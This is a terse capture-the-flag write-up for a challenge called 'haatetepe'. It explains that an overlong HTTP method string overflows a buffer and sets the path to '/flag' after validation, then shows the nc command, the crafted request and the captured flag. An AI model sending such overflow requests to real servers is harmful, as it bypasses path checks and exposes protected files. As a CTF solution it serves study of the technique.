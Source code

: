 # haatetepe

- Stack overflow in method string sets path to illegal path `/flag` after path validation

``` sh
nc server port
```

``` http
GETaaaaaaaaaaaaa/flag /morning HTTP/1.1
```

``` text
NNS{wh4t_d0_y0u_m34n_http_15n7_s3cur3??}
```
